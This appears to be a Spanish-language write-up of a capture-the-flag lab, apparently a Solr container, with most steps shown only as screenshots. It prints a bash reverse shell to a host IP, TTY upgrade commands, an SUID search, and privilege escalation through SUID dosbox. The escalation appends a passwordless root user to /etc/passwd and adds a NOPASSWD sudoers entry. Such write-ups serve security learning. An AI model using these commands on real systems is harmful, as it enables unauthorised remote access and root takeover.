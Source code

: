 ![](Pasted%20image%2020250318212605.png)

![](Pasted%20image%2020250318212819.png)

![](Pasted%20image%2020250318212838.png)

![](Pasted%20image%2020250318213712.png)

![](Pasted%20image%2020250318214422.png)

![](Pasted%20image%2020250318214934.png)

```bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

![](Pasted%20image%2020250318215349.png)


Sanitizacion de la shell (TTY):

Copy

```bash
script /dev/null -c bash
```

Copy

```bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

una vez adentro pudimos ver el historial del usuario:
``` bash
ninhack@beb59094ca80:~$ cat .bash_history
cat .bash_history
wget https://archive.apache.org/dist/lucene/solr/8.3.1/solr-8.3.1.tgz
tar -xvzf solr-8.3.1.tgz 
ls -al
cd solr-8.3.1
ls -al
cd ..
mv solr-8.3.1 /opt/solr
exit
bin/solr create_core -c 0xDojo
sudo apt install default-jdk
exit
bin/solr create_core -c 0xDojo
bin/solr start
bin/solr create_core -c 0xDojo
exit
exit

```

No hay nada ahí, tampoco en por sudo, pero por SUID:
```bash
find / -perm -4000 -ls 2>/dev/null
...
9614   2504 -rwsr-xr-x   1 root     root   560896 Sep 19  2022 /usr/bin/dosbox

```


```bash
LFILE_PASSWD='/etc/passwd'
/usr/bin/dosbox -c 'mount c /' -c "echo 'TioGilip0llas::0:0::/root:/bin/bash' >> c:$LFILE_PASSWD" -c exit

su TioGilip0llas -s /bin/bash
```

En caso de que exista retorno de carro en las lineas de /etc/passwd (limpiar archivo)
```bash
LFILE_SCRIPT='/tmp/clean.sh'
echo -e '#!/bin/sh\nsed -i "s/\\r//g" /etc/passwd' | /usr/bin/dosbox -c 'mount c /' -c "echo - > c:$LFILE_SCRIPT" -c exit

/usr/bin/dosbox -c 'mount c /' -c "chmod +x c:$LFILE_SCRIPT" -c exit

/usr/bin/dosbox -c 'mount c /' -c "c:\\tmp\\clean.sh" -c exit
```

Una opción más 
``` bash
ninhack@7046aae9dd7c:~$ echo $LFILE_SUDOERS
\etc\sudoers.d\ninhack
ninhack@7046aae9dd7c:~$ /usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL) NOPASSWD: ALL >c:$LFILE" -c exit

DOSBox version 0.74-3
Copyright 2002-2019 DOSBox Team, published under GNU GPL.
---
ninhack@7046aae9dd7c:~$ sudo su
root@7046aae9dd7c:/home/ninhack# 

```
